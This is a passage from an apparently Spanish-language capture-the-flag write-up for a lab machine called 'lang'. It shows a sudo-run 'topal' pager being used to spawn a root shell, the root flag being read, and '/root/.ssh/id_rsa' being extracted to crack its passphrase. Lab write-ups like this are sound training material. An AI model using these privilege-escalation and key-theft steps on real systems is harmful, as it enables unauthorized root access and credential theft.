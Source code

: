 Ahora, vamos a ejecutar `topal` como `root` y a hacer lo mismo, pero esta vez ejecutando una `bash`.
```console
sudo topal /tmp/test.txt
```

Le damos a la `v` y lanzamos el siguiente comando a través del pager.
![Write-up Image](images/Screenshot_7.png)

Y nos convertimos en `root` y podemos leer su flag, que en esta máquina se encuentra en `/root/r00000000t.txt` por alguna razón
```console
root@lang:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)
root@lang:~# ls -la
total 40
drwx------  6 root root 4096 ago 20 19:01 .
drwxr-xr-x 18 root root 4096 ago 20 17:47 ..
lrwxrwxrwx  1 root root    9 abr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 ene 15  2023 .bashrc
drwxr-xr-x  3 root root 4096 ago  1  2023 .cache
drw-------  3 root root 4096 ene 15  2023 .local
-rw-------  1 root root  161 jul  9  2019 .profile
-r--------  1 root root   33 ago 20 19:01 r00000000t.txt
-rw-r--r--  1 root root   66 ago 20 17:49 .selected_editor
drwx------  2 root root 4096 ago 20 17:57 .ssh
drwx------  2 root root 4096 nov 27 16:28 .topal
root@lang:~# cat r00000000t.txt
a91fea27fdcbf80...
```

## Exfiltrating `root` private key + Cracking the passphrase
También podríamos haber extraído la clave privada de `root` situada en `/root/.ssh/id_rsa`.
```console
sudo topal /root/.ssh/id_rsa
```

Le damos a la tecla `v` y nos la copiamos.
